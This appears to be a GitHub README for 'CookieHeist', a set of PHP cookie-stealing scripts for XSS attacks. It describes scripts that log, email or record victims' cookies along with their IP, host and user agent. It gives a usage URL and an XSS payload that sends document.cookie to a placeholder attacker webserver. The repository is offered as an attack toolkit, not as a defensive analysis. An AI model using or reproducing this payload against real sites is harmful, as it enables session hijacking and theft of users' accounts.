 # CookieHeist
PHP Cookie Stealing Scripts for use in XSS

1. Cookiesteal-simple.php - Records whatever "c" parameter holds, in example case the document.cookie string. Then writes value to log.txt and redirects to Google.com.

2. Cookiemail.php - This version code will mail the cookies to hacker mail using the PHP() mail function with subject “Stolen cookies”.

3. Cookiesteal-v.php (verbose) - Collects the IP address, port number, host(usually computer-name), user agent and cookie.

## Usage

Example: http://[Attacker Webserver]/cookiesteal-simple.php?c=document.cookie

XSS Payload Example: <script javascript:text>document.location="http://[Attacker Webserver]?c=" + document.cookie + "&t=Alert"; </script>
